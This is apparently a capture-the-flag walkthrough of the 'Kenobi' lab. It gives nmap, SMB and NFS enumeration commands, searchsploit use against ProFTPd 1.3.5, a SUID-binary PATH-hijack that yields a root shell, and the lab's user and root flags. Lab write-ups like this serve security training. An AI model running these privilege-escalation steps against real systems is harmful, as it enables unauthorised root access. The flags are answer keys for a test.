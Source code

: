 # Kenobi


## Task 1 Deploy the vulnerable machine

### Make sure you're connected to our network and deploy the machine
Deploy the machine

### Scan the machine with nmap, how many ports are open?

```
7
```

## Task 2 Enumerating Samba for shares

### nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP
Using the nmap command above, how many shares have been found?

```
3
```

### smbclient //<ip>/anonymous
Once you're connected, list the files on the share. What is the file can you see?

```
log.txt
```

### smbget -R smb://<ip>/anonymous
What port is FTP running on?
```
21
```

### nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.186.207
What mount can we see?

```
/var
```


## Task 3 Gain initial access with ProFtpd

### What is the version?
```
1.3.5
```

### We can use searchsploit to find exploits for a particular software version.
Searchsploit is basically just a command line search tool for exploit-db.com.
How many exploits are there for the ProFTPd running?

```
3
```

### Lets mount the /var/tmp directory to our machine
What is Kenobi's user flag (/home/kenobi/user.txt)?

```
d0b0f3f53b6caa532a83915e19224899
```


## [Task 4] Privilege Escalation with Path Variable Manipulation

### What file looks particularly out of the ordinary? 
```
$ find / -perm -u=s -type f 2>/dev/null

/usr/bin/menu
```

### Run the binary, how many options appear?
```
3
```

### What is the root flag (/root/root.txt)?
```
echo /bin/sh > /tmp/curl
chmod 777 /tmp/curl
export PATH=/tmp:$PATH

/usr/bin/menu

cat /root/root.txt

177b3cd8562289f37382721c28381f02
```
